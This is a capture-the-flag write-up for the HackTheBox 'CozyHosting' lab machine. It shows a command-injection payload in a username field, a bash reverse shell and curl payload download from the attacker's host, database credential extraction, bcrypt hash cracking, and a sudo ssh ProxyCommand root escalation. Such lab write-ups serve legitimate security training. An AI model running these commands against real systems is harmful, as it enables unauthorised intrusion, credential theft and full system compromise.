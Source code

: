 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP.md)
## 🔍 Reconnaissance

### ⚛️ Nmap Scanning

```bash
nmap -p- --min-rate 10000 10.10.11.230
```

```
nmap -p 22,80 -sCV 10.10.11.230
```

- Open ports: **22 [SSH](SSH)**, **80 [HTTP](HTTP.md)**
- Web server: nginx 1.18.0
- Redirect to `cozyhosting.htb` confirms host-based routing

### 🌐 Website Analysis

- Login page sets `JSESSIONID` — confirms Java-based backend
- Site has a Spring Boot default error page on 404

### 🔮 Directory Fuzzing

```bash
feroxbuster -u http://cozyhosting.htb
```

```bash
feroxbuster -u http://cozyhosting.htb -w /opt/SecLists/Discovery/Web-Content/spring-boot.txt
```

- Interesting routes:
    - `/actuator` endpoints (e.g., `/mappings`, `/env`, `/sessions`)
    - `/admin`, `/executessh`, `/addhost`

## 🤖 Shell as `app`

```bash
curl -s http://cozyhosting.htb/actuator/mappings | jq .
```

### 💰 Session Hijacking

- `GET /actuator/sessions` leaks session IDs
- Use cookie in browser dev tools to hijack `kanderson`'s session

### ⚒️ Command Injection via `/executessh`

- POST request to `/executessh` with hostname and username
- Injection through username using `${IFS}` or brace expansion:

```bash
username=0xdf;{ping,-c,1,10.10.14.6};#
```

- Verified ICMP echo via `tcpdump`

### 🛠️ Reverse Shell

1. Serve a reverse shell script:

```bash
bash -i >& /dev/tcp/10.10.14.6/443 0>&1
```

2. Use `curl` from target to download:

```bash
curl http://10.10.14.6/rev.sh -o /tmp/rev.sh
```

3. Trigger execution:
    

```bash
bash /tmp/rev.sh
```

4. Catch shell on listener:

```bash
nc -lnvp 443
```

## 👤 Shell as `josh`

### 🔎 Enumerate Java App

- Found `cloudhosting-0.0.1.jar` running under Java
- Unzipped and extracted `application.properties`

```bash
grep -r password .
```

- Credentials:
    
    - DB: postgres / `Vg&nvzAQ7XxR`
        

### 🔢 Postgres DB Access

```bash
PGPASSWORD='Vg&nvzAQ7XxR' psql -U postgres -h localhost
```

- Found `users` table with bcrypt password hashes
    

### 🔒 Hash Cracking

```bash
hashcat -m 3200 -a 0 -o cracked.txt hashes rockyou.txt
```

- Cracked admin hash: `manchesterunited`
    

### ☕ User Pivot

```bash
su - josh  # or
ssh josh@cozyhosting.htb
```

- Read `/home/josh/user.txt`
    

## 🕵️‍♂️ Privilege Escalation to Root

### 🗜️ Sudo Permission

```bash
sudo -l
```

- Can run `/usr/bin/ssh` as root
    

### 🔀 Exploiting ProxyCommand

```bash
sudo ssh -o ProxyCommand='touch /tmp/owned' x
sudo ssh -o ProxyCommand='cp /bin/bash /tmp/rootbash' x
sudo ssh -o ProxyCommand='chmod 6777 /tmp/rootbash' x
/tmp/rootbash -p
```

- Got root shell!
    
- Read `/root/root.txt`
    

---

## 🔧 Tools Used

- `nmap`
    
- `feroxbuster`
    
- `curl`, `jq`
    
- `Burp Suite`
    
- `hashcat`
    
- `nc`, `tcpdump`
    
- `jd-gui`
    
- `psql`
    

## 📓 Takeaways

- Java Spring Boot is **leaky** with actuator endpoints ⚡
    
- **Session hijacking** via `/actuator/sessions`
    
- **Command injection** via user input using `${IFS}` and brace expansion
    
- `ssh -o ProxyCommand=` is powerful for **root privilege escalation**
    

## 🔗 References

- [Spring Boot Actuator docs](https://docs.spring.io/spring-boot/docs/current/actuator-api/html/)
    
- [GTFObins: ssh](https://gtfobins.github.io/gtfobins/ssh/)
    
- [HackTricks: Command Injection](https://book.hacktricks.xyz/pentesting-web/command-injection)
    
- [jd-gui Java decompiler](https://github.com/java-decompiler/jd-gui/releases)